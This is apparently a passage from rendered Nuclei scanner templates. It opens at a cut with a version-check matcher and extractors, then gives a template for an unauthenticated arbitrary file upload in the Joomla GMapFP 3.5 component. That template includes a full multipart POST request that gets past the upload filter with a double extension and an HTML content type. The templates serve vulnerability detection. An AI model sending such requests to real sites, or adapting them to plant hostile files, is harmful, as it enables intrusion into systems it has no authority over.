 **Type - dsl**

- dsl
  1. compare_versions(version, '\< 5.3.2')

### Extractors

**Type - regex**

- name - version
- internal - True
- group - 1
- regex
  1. (?m)Stable tag: ([0-9.]+)

**Type - regex**

- group - 1
- regex
  1. (?m)Stable tag: ([0-9.]+)

---

# Joomla! Component GMapFP 3.5 - Arbitrary File Upload

## Description

- Joomla! Component GMapFP 3.5 is vulnerable to arbitrary file upload vulnerabilities. An attacker can access the upload function of the application
  without authentication and can upload files because of unrestricted file upload which can be bypassed by changing Content-Type & name file too double ext.

- severity - high
- tags - cve,cve2020,joomla,edb,packetstorm,fileupload,intrusive

## Requests

### Step - 1

```
POST /index.php?option={{component}}&controller=editlieux&tmpl=component&task=upload_image HTTP/1.1
Host: {{Hostname}}
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarySHHbUsfCoxlX1bpS
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: {{BaseURL}}
Connection: close

------WebKitFormBoundarySHHbUsfCoxlX1bpS
Content-Disposition: form-data; name="option"

com_gmapfp
------WebKitFormBoundarySHHbUsfCoxlX1bpS
Content-Disposition: form-data; name="image1"; filename="nuclei.html.gif"
Content-Type: text/html

projectdiscovery

------WebKitFormBoundarySHHbUsfCoxlX1bpS
Content-Disposition: form-data; name="no_html"

no_html
------WebKitFormBoundarySHHbUsfCoxlX1bpS--

```